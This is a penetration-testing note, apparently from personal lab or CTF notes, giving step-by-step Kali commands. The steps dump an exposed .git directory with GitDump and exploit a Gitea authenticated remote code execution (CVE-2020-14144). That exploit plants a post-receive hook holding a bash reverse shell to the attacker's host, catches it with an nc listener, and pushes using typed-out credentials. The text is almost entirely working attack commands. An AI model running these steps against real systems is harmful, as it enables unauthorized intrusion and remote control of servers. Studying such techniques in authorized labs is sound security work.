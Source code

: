 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://pentestbook.six2dez.com/enumeration/webservices/github

```bash - kali
git clone https://github.com/Ebryx/GitDump
```

```bash - kali
cd GitDump
```

```bash - kali
python3 git-dump.py http://$TARGET/.git/
```

```bash - kali
cd output && git checkout -- .
```

```bash - kali
git log
```

#### Gitea

https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/


sign in > Create new repository (shelly) > Settings > Git Hooks > post-receive

```bash - Gitea
#!/bin/bash
bash -i >& /dev/tcp/$KALI/3000 0>&1 &
```

```bash - kali
touch README.md
```

```bash - kali
git init
```

```bash - kali
git add README.md
```

```bash - kali
git commit -m "Initial commit"
```

```bash - kali
git remote add origin http://$TARGET:3000/admin1/shelly.git
```

```bash - kali
sudo rlwrap -cAr nc -lvnp 3000
```

```bash - kali
git push -u origin master
```

```bash - kali
admin1
```

```bash - kali
adminadmin
```
